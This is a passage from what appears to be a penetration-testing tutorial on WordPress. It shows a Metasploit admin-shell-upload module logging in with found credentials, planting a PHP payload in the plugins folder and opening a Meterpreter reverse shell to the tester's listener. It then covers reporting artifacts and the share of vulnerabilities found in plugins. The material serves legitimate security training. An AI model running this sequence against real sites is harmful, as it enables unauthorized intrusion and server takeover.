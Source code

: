 Once we are satisfied with the setup, we can type `exploit` and obtain a reverse shell. From here, we could start enumerating the host for sensitive data or paths for vertical/horizontal privilege escalation and lateral movement.

```shell
msf6 exploit(unix/webapp/wp_admin_shell_upload) > exploit

[*] Started reverse TCP handler on 10.10.14.15:4444
[*] Authenticating with WordPress using doug:jessica1...
[+] Authenticated with WordPress
[*] Preparing payload...
[*] Uploading payload...
[*] Executing the payload at /wp-content/plugins/CczIptSXlr/wCoUuUPfIO.php...
[*] Sending stage (39264 bytes) to 10.129.42.195
[*] Meterpreter session 1 opened (10.10.14.15:4444 -> 10.129.42.195:42816) at 2021-09-20 19:43:46 -0400
i[+] Deleted wCoUuUPfIO.php
[+] Deleted CczIptSXlr.php
[+] Deleted ../CczIptSXlr

meterpreter > getuid

Server username: www-data (33)

```

In the above example, the Metasploit module uploaded the `wCoUuUPfIO.php` file to the `/wp-content/plugins` directory. Many Metasploit modules (and other tools) attempt to clean up after themselves, but some fail. During an assessment, we would want to make every attempt to clean up this artifact from the client system and, regardless of whether we were able to remove it or not, we should list this artifact in our report appendices. At the very least, our report should have an appendix section that lists the following information—more on this in a later module.

- Exploited systems (hostname/IP and method of exploitation)
- Compromised users (account name, method of compromise, account type (local or domain))
- Artifacts created on systems
- Changes (such as adding a local admin user or modifying group membership)

* * *

## Leveraging Known Vulnerabilities

Over the years, WordPress core has suffered from its fair share of vulnerabilities, but the vast majority of them can be found in plugins. According to the WordPress Vulnerability Statistics page hosted [here](https://wpscan.com/statistics), at the time of writing, there were 23,595 vulnerabilities in the WPScan database. These vulnerabilities can be broken down as follows:

- 4% WordPress core
- 89% plugins
- 7% themes

The number of vulnerabilities related to WordPress has grown steadily since 2014, likely due to the sheer amount of free (and paid) themes and plugins available, with more and more being added every week. For this reason, we must be extremely thorough when enumerating a WordPress site as we may find plugins with recently discovered vulnerabilities or even old, unused/forgotten plugins that no longer serve a purpose on the site but can still be accessed.
